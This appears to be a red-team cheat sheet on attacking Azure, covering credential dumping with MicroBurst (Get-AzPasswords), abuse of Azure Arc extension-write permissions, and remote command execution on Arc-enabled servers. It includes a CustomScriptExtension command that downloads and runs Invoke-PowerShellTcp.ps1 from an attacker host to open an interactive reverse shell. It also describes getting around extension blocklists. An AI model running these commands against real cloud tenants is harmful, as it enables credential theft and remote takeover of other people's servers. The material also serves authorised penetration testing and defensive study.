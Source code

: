 ## Azure Container Registry dump
- https://github.com/NetSPI/MicroBurst 
```
Get-AzPasswords
Get-AzACR
```

## Azure ARC
- Manage normal servers (Windows and Linux) within Azure using ARC
- All roles with `Microsoft.HybridCompute/machines/extensions/write` permission are able to install or update an Azure Arc Extension. Some of them are:
  - Owner, Contributor, Azure Connected Machine Resource Administrator, Hybrid Server Resource Administrator, Windows Admin Center Administrator Login

#### Check azure arc
- Login to azure Portal and check for connected machines in Azure Arc

#### Retrieve the local IP address of the server:
```
az connectedmachine extension create --machine-name i-0ef6d7a83a00e --resource-group AzureArc-RG --name ipconfig --type "CustomScriptExtension" --publisher "Microsoft.Compute" --settings "{'commandToExecute':'ipconfig'}" --location "eastus"
```

#### Retrieve interactive shell on the machine
```
az connectedmachine extension create --machine-name i-0ef6d7a83a00e --resource-group AzureArc-RG --name RemoteCode --type "CustomScriptExtension" --publisher "Microsoft.Compute" --settings "{'commandToExecute':'powershell -c iex(New-Object Net.Webclient).downloadstring(\'http://<IP>/Invoke-PowerShellTcp.ps1\')'}" --location "eastus"
```

### Execute commands on arc enabled server
- Requires role Azure Arc VMWare Contributor
- Uses `Az.ConnectedMachine` module

```
New-AzConnectedMachineRunCommand -MachineName <MACHINE NAME> -ResourceGroupName <RESOURCE GROUP NAME> -RunCommandName '<NAME>' -Location '<LOCATION>' -SourceScript "<COMMAND TO EXECUTE>"
```

### Extensions
- Arc-enabled servers can have extensions allowlist and blocklist.
- Microsoft highlights that Custom Script extension could be blocked.
- Extensions like OpenSSH and Admin Center can still be abused to access an Arc-enabled server.
	- with ability to run commands on a server, it is possible to modify or remove allowlists and blocklists.
- Possible to install extensions on the vm with `Microsoft.HybridCompute/machines/extensions/write`

### Read deployments
- Permissions: `Microsoft.Resource/deployments/read`

